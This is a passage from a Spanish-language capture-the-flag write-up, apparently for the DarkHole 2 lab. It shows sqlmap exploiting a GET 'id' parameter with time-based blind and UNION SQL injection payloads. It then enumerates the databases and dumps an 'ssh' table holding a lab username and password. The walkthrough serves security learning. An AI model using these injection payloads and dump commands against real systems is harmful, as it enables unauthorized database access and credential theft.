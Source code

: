 - Listamos las bases de datos. Parámetro (-r) en sqlmap para utilizar nuestro request.

```bash
❯ sqlmap -r request --dbs
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 4841 FROM (SELECT(SLEEP(5)))lPqb) AND 'OXzP'='OXzP

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-1043' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a787a71,0x5848794771724c474256544664636e656946634850536a6948497a75616a427a6b62614d53466b4d,0x71706b7a71)-- -
---
available databases [5]:
[*] darkhole_2
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

Listamos las tablas de la base de datos `darkhole_2`.

```bash
❯ sqlmap -r request -D darkhole_2 --tables
Database: darkhole_2
[2 tables]
+-------+
| ssh   |
| users |
+-------+
```

Sabiendo las tablas, procedemos a dumpear los datos de la tabla `ssh`.

```bash
❯ sqlmap -r request -D darkhole_2 -T ssh --dump
Database: darkhole_2
Table: ssh
[1 entry]
+----+------+--------+
| id | pass | user   |
+----+------+--------+
| 1  | fool | jehad  |
+----+------+--------+
```

---

> Las herramientas automatizadas nos ahorran tiempo, pero siempre es bueno ser curioso sobre saber lo que pasa por detrás, para entender lo que estamos haciendo.
{: .prompt-info }

---